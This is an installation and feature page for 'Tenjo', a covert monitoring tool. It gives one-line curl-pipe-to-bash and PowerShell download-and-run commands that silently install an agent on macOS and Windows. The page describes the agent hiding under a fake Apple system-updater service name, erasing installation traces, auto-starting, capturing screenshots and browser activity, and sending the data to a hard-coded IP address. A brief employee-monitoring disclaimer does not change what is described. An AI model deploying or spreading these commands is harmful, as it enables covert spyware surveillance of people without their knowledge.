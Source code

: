 # Tenjo Stealth Installation Commands

## One-Line Remote Installation (Stealth Mode)

### macOS - Silent Installation
```bash
curl -sSL https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/quick_install_stealth_macos.sh | bash -s true
```

### Windows - Silent Installation
```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/quick_install_stealth_windows.bat' -OutFile '%TEMP%\quick_install.bat' -UseBasicParsing; cmd /c '%TEMP%\quick_install.bat' true; del '%TEMP%\quick_install.bat'"
```

## Manual Installation (if needed)

### macOS
1. Download repository
2. Navigate to client directory
3. Run: `bash quick_install_stealth_macos.sh true`

### Windows
1. Download repository
2. Navigate to client directory
3. Run: `quick_install_stealth_windows.bat true`

## Uninstallation Commands

### macOS - One-Line Remote Uninstall
```bash
curl -s https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/quick_uninstall_stealth_macos.sh | bash
```

### Windows - One-Line Remote Uninstall
```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/quick_uninstall_stealth_windows.bat' -OutFile '%TEMP%\quick_uninstall.bat' -UseBasicParsing; cmd /c '%TEMP%\quick_uninstall.bat'; del '%TEMP%\quick_uninstall.bat'"
```

### Manual Uninstall (if needed)

#### macOS
```bash
bash quick_uninstall_stealth_macos.sh
```

#### Windows
```cmd
quick_uninstall_stealth_windows.bat
```

## Features

### ✅ Completely Silent Operation
- No user prompts or visible windows
- Runs hidden in background
- Auto-starts on boot/login
- No taskbar or system tray icons

### ✅ Stealth Installation
- Downloads and installs automatically
- Hides in system directories
- Removes installation traces
- Uses system service names

### ✅ Auto-Start Configuration
- **macOS**: LaunchAgent/LaunchDaemon
- **Windows**: Task Scheduler
- Starts automatically when computer boots
- Survives user logout/login

### ✅ Monitoring Capabilities
- 📸 Screenshots every 60 seconds
- 🌐 Browser activity tracking
- 💻 Process monitoring
- 📊 System statistics
- 📡 Data transmission to server

### ✅ Professional Disguise
- Service name: "SystemUpdate"
- Appears as legitimate system service
- Hidden from casual inspection
- Low resource usage

## Installation Locations

### macOS
- **Install Dir**: `~/.config/system-utils/`
- **Service**: `~/Library/LaunchAgents/com.apple.systemupdater.plist`
- **Logs**: `~/Library/Logs/SystemUpdater/`

### Windows  
- **Install Dir**: `%USERPROFILE%\.config\system-utils\`
- **Task**: Task Scheduler `SystemUpdater`
- **Logs**: `%USERPROFILE%\AppData\Local\SystemUpdater\`

## Uninstall Features

### ✅ Complete Removal
- Stops all running processes
- Removes auto-start configuration
- Deletes all files and logs
- Cleans system traces
- Verifies successful removal

### ✅ One-Line Remote Uninstall
- No need to access target machine locally
- Downloads and runs uninstaller automatically
- Works from any terminal with internet access
- Provides detailed removal report

## Security Notes

⚠️ **This is monitoring software intended for legitimate employee monitoring purposes only**

- Only use on systems you own or have explicit permission to monitor
- Ensure compliance with local privacy laws
- Inform users of monitoring where legally required
- Use responsibly and ethically

## Technical Details

### Process Names
- **Main Process**: `python stealth_main.py`
- **Service Name**: `SystemUpdater` / `com.apple.systemupdater`
- **Directory Name**: `system-utils` / `.config/system-utils`

### Network Communication
- Connects to: `http://103.129.149.67`
- Encrypted data transmission
- Automatic retry on connection failure
- Minimal bandwidth usage

### Logging
- Silent mode: Warnings and errors only
- Log location: `logs/stealth.log`
- Automatic log rotation
- No console output in stealth mode
